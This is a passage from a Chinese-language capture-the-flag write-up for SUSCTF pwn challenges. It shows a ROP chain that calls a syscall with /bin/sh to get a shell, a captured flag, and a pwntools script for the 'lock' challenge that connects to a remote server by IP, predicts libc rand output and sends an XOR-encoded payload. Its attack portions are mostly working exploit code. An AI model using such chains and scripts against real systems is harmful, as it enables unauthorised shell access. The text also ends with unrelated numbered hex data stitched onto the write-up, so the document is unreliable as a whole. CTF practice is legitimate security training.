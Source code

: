 ```python
        print(conn.recvline())

write_int64(pop_rdx_rsi_ret, ret_ptr)
write_int64(rdx, ret_ptr + 8)
write_int64(rsi, ret_ptr + 16)
write_int64(pop_rax_ret, ret_ptr + 24)
write_int64(rax, ret_ptr + 32)
write_int64(pop_rdi_ret, ret_ptr + 40)
write_int64(rdi, ret_ptr + 48)
write_int64(syscall, ret_ptr + 56)
write_int64(bin_sh, ret_ptr + 64)
```

最终发送`exit`结束循环，获取shell。

![image-20201020152521077](https://timg.reito.fun/archive/typora-schwarzer/image-20201020152521077.png)

```
SUSCTF{50ac2f9b6f08d2762fa6bdf6b681f1e8}
```

## [pwn]lock

![image-20201020154506659](https://timg.reito.fun/archive/typora-schwarzer/image-20201020154506659.png)

首先看到一个简单点加密算法，在本地同步解密即可。话不多说， 看脚本

```python
from pwn import *
from ctypes import *

conn = remote('146.56.223.95', 20051)
#conn = process('/home/schlinux/lock')

print(conn.recvlines(12))
this_rand_str = conn.recvline().decode()
this_rand = int(this_rand_str[this_rand_str.find(':') + 1:])
print(this_rand_str)
print(this_rand)

libc = cdll.LoadLibrary("libc.so.6")
libc.srand(this_rand)
xor_item = libc.rand() % 10 + 65
print(xor_item)

payload_100 = xor(100, xor_item)
payload_91 = xor(91, xor_item)
payload = payload_100 + payload_100 + payload_91

print(conn.recv(200, 1))

conn.send(payload)
```


[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000
